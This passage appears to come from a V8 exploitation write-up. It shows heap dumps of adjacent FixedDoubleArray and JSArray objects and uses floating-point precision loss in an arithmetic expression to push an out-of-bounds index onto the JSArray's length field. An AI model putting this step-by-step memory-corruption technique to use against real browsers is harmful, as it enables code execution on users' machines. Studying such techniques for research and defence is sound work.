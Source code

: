Now we have the following layout

```text
FIXED_DOUBLE_ARRAY_TYPE
JS_ARRAY_TYPE
FIXED_DOUBLE_ARRAY_TYPE
```

```text
oob index is 4
length is 3
leaked 0x000009d6e6600c19
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x28 ] -----
0x000032adcd10b6b8    0x000009d6e6601451    MAP_TYPE    
0x000032adcd10b6c0    0x0000000300000000    
0x000032adcd10b6c8    0x3ff199999999999a    arr[0]
0x000032adcd10b6d0    0x3ff3333333333333    arr[1]
0x000032adcd10b6d8    0x3ff4cccccccccccd    arr[2]
----- [ JS_ARRAY_TYPE : 0x20 ] -----
0x000032adcd10b6e0    0x000009b41ff82d41    MAP_TYPE map arr[3]  
0x000032adcd10b6e8    0x000009d6e6600c19    FIXED_ARRAY_TYPE properties arr[4]    
0x000032adcd10b6f0    0x000032adcd10b729    FIXED_DOUBLE_ARRAY_TYPE elements    
0x000032adcd10b6f8    0x0000000300000000    
```

Cool, now we are able to access the `JSArray` instead of the `FixedDoubleArray`. However, we're accessing its `properties` field. 

Thanks to the precision loss when transforming `+1+1` into `+2` we get a difference of `2` between the computations. If we get a difference of `4`, we'll be at the right offset. Transforming `+1+1+1 ` into `+3` will give us this!

```text
d8> x + 1 + 1 + 1
9007199254740992
d8> x + 3
9007199254740996
```

```diff
26c26
<   z = z + 1 + 1;
---
>   z = z + 1 + 1 + 1;
```

Now we are able to read/write the `JSArray`'s length. 


```text
oob index is 6
length is 3
leaked 0x0000000300000000
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x28 ] -----
0x000004144950b6e0    0x00001b7451b01451    MAP_TYPE    
0x000004144950b6e8    0x0000000300000000    
0x000004144950b6f0    0x3ff199999999999a    // arr[0]
0x000004144950b6f8    0x3ff3333333333333  
0x000004144950b700    0x3ff4cccccccccccd    
----- [ JS_ARRAY_TYPE : 0x20 ] -----
0x000004144950b708    0x0000285651602d41    MAP_TYPE    
0x000004144950b710    0x00001b7451b00c19    FIXED_ARRAY_TYPE    
0x000004144950b718    0x000004144950b751    FIXED_DOUBLE_ARRAY_TYPE    
0x000004144950b720    0x0000000300000000    // arr[6]
```
